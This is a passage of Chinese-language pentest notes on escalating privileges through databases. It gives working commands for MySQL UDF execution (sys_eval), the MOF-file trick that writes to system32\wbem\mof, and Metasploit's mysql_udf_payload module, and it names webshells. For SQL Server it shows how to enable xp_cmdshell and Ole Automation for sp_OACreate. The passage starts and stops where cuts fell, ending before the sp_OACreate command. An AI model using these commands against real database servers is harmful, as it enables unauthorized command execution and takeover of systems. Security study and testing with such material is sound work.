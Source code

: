 select sys_eval('whoami');

1. 删除函数

drop function sys_eval;

- udf 自动利用	

msf ： exploit/multi/mysql/mysql_udf_payload

脚本小子webshell:  udf.php  moon.php



#### mof

select load_file("c:/phpstudy/www/nullevt.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof";

等待一分钟会自动触发执行 mof文件中的命令

![image-20220721115459922](D:\icq\MD\images\数据库提权\image-20220721115459922.png)       



### **sqlserver**

#### **xp_cmdshell**

在sqlserver 2005 之后默认关闭，需要手动开启

exec sp_configure 'show advanced options',1;

reconfigure;

exec sp_configure 'xp_cmdshell',1;

reconfigure;

执行xp_cmdshell:

master..xp_cmdshell "net user";



#### **sp_OACreate**





```
#开启sp_oacrate
EXEC sp_configure "show advanced options", 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure "Ole Automation Procedures", 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure "show advanced options", 0;
```





执行命令
